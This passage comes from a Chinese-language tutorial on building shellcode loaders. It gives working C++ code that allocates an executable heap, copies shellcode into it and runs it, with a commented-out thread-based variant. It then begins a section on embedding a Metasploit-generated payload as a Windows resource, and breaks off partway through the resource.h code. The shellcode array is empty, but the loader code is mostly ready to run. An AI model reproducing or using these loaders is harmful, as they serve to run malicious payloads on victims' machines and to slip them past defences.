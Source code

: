 ```cpp
#include <Windows.h>

// 定义 shellcode（恶意代码）
unsigned char shellcode[] = "";

// 主函数
void main() {
    // 创建一个具有执行权限的堆，以存储shellcode
    HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(shellcode), 0);

    // 在创建的堆中分配一块内存，并将其地址赋给buffer
    char* buffer = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(shellcode));

    // 将shellcode复制到buffer指向的内存中
    memcpy(buffer, shellcode, sizeof(shellcode));

    // 下面是另一种创建线程的方法，这里被注释掉了
    // 创建一个新线程并执行buffer指向的内存中的shellcode
    // HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);

    // 等待新线程执行完毕
    // WaitForSingleObject(hThread, INFINITE);

    // 将buffer指向的内存地址强制转换为一个函数指针，并调用该函数，执行shellcode
    ((void(*)(void)) buffer)();
}

```



# 5.基于资源节加载

## 导入资源

使用MSF生成bin文件，随后点击`添加资源->导入`，并选择生成的bin文件

![image-20230419150951949](shellcode加载器/image-20230419150951949.png)	



然后自定义bin文件的资源类型, 此处我自定义的类型为"shellcode"，当然你也可以定义成其它的名字

![image-20230419151102352](shellcode加载器/image-20230419151102352.png)	



添加完资源后会在当前项目生成一个`resource.h`, 代码如下所示，这里只需注意这段代码`#define IDR_SHELLCODE1 101`

```cpp
#include <Windows.h>
#include "resource.h"


//{{NO_DEPENDENCIES}}
// Microsoft Visual C++ 生成的包含文件。
// 供 Shellcode加载器.rc 使用
//

//IDR_SHELLCODE1 通常用于标识和引用项目中的某个资源，例如嵌入到可执行文件中的二进制数据、图像或其他类型的资源，在项目的其他部分（例如代码或资源脚本中），可以通过使用 IDR_SHELLCODE1 符号来引用这个资源，而不是直接使用数字常量（如 101
#define IDR_SHELLCODE1                  101

// Next default values for new objects
// 
#ifdef APSTUDIO_INVOKED
```